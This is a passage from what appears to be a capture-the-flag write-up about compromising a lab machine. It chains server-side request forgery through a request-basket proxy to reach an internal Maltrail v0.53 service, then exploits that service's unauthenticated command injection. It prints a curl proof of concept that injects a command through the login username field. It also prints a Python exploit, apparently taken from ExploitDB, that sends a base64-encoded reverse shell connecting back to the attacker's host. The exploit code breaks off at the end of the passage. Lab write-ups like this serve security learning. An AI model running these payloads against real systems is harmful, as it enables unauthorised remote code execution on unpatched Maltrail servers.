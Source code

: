 Now, instead of the ip of my machine, let's put there the localhost ip `127.0.0.1`, with the port 80, which was filtered, and visit the basket.

Click on `Proxy Response` which *proxies the response from the forward URL back to the client*.

When I visit the link of that basket, it opens the page with the port 80, and in the footer it says `Powered by Maltrail (v0.53)`.

--------------

## Task 6

There is an unauthenticated command injection vulnerability in MailTrail v0.53. What is the relative path on the webserver targeted by this exploit?

## Solution 6

A PoC for this vulnerability is as follows.

```sh
curl 'http://hostname:port/login' --data 'username=;`id > /tmp/bbq`'
```

This can be used by injecting OS commands into the username parameter, which will be executed with the privileges of the running process. It can be exploited remotely without authentication.

From this we can see also the answer to the task, which is `/login`.

## Task 7

Submit the flag located in the puma user's home directory.

## Solution 7

I will use the following PoC found on `ExploitDB` to gain RCE.

```python
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
```